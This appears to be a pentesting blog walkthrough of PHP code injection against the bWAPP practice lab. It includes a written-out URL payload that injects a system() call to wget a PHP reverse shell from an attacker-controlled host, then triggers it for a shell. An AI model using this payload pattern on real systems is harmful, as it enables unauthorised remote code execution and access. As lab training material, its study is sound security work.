 ```yaml
---
layout: post
title: PHP Code Injection
categories:
  - Web-Pentesting
---
```


<br>As you can see the message is showing in the URL, we can manipulate it

![37](https://teckk2.github.io/assets/images/Web%20Pentest/A1/37.png)
![38](https://teckk2.github.io/assets/images/Web%20Pentest/A1/38.png)
<br>Now how can we exploit this?
![39](https://teckk2.github.io/assets/images/Web%20Pentest/A1/39.png)
<br>Using the PHP system module, we can execute any system commands and get shell
<br>Now to get shell we cannot directly run nc or any one-liner, in alternate to that we can upload a php-reverse shell and execute it using this RCE.
<br>First host your php payload,
![40](https://teckk2.github.io/assets/images/Web%20Pentest/A1/40.png)
<br>Then download it into the victim’s machine
![41](https://teckk2.github.io/assets/images/Web%20Pentest/A1/41.png)
<br><fron color="Black">192.168.140.138/bWAPP/phpi.php?message="a";system("wget http://192.168.140.136/teck-nc.php -O /tmp/teck.php")</font>
<br>Our file has been uploaded successfully now let’s try to trigger that file and get reverse shell.
![42]https://teckk2.github.io/assets/images/Web%20Pentest/A1/42.png
<br>And we got the shell.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
